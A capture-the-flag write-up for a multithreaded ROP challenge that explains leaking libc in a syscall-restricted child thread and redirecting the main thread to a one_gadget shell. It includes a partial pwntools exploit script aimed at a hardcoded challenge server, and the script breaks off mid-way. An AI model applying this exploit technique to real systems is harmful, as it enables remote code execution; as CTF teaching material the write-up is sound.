 FWEASD

This is a simple ROP chal with multithread.
It spawn a child thread, and the main thread wait until child thread send "TRANSMISSION_OVER\x00", the child thread will read a string, and if `!strcmp("ASIS{N0T_R34LLY_4_FL4G}", input_string, )`, it will write user controlled buffer that can overflow main thread to main thread.
In both main thread and child thread can overwrite return address. However in child thread we can only use
1. sys_read
2. sys_write
3. sys_close
4. sys_exit
5. sys_exit_group

Apparently we have to get shell in main thread, so I leak libc in child thread and write one_gadget to main thread's return address.
Exploit script :
```python=
#!/usr/bin/python
from pwn import *
import sys

host = '37.139.17.37'
port = 1338

r = remote(host, port)

context.arch = 'amd64'

buf = 0x603000

write_plt = 0x400890
puts_plt = 0x0000000000400880
read_plt = 0x4008e0
puts_got = 0x0000000000602028

pop_rsi_r15 = 0x0000000000400cf1
pop_rdi = 0x0000000000400cf3

main_read = 0x400bb7
main_exit = 0x400c31

puts_base = 0x00000000000809c0
pop_rdx = 0x0000000000001b96
one_gadget = 0x4f322

r.recvuntil(':')
payload = 'ASIS{N0T_R34LLY_4_FL4G}\x00'.ljust(0x20, 'a')
payload += flat([buf-0x200, pop_rdi, puts_got, puts_plt, main_read])
r.sendline(payload)
r.recvuntil('Yeah tha')
libc = u64(r.recvn(6).ljust(8, '\x00')) - puts_base
print ('libc : ', hex(libc))
pop_rdx += libc
print ('pop_rdx : ', hex(pop_rdx))
one_gadget += libc
print ('one_gadget : ', hex(one_gadget))


time.sleep(1)
# Since the PIPE fd number may vary due to some environment issue, you can specify your PIPE fd number here if 6 does not work for you.
if len(sys.argv) < 2:
    # this would work in the origin remote server
    fd = 6
```